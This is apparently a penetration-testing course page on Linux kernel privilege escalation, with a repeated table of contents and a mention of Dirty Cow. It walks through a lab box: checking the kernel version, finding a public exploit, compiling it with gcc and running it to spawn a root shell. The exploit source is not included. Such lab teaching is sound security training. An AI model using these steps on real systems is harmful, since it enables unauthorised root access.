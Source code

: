## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
  - [Kernel Exploit Example](#Kernel\Exploit\Example)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Kernel Exploit Example](#Kernel\Exploit\Example)

## Table of Contents

  - [Kernel Exploit Example](#Kernel\Exploit\Example)

- **Dirty Cow (CVE-2016-5195)**


Kernel exploits are vulnerabilities that leverage errors in the kernel to execute code with root privileges. It's common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems. They are often excluded from patching due to compatibility issues with certain services and applications.

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while other's require modification. A quick way to identify kernel exploits is to issue the command:
```bash
uname -a
```
and search google for the Kernel version and any known exploits.


## Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

Kernel Exploits

```shell
gdxqpardo@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```


```shell
gdxqpardo@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

```shell
gdxqpardo@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

```shell
gdxqpardo@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```


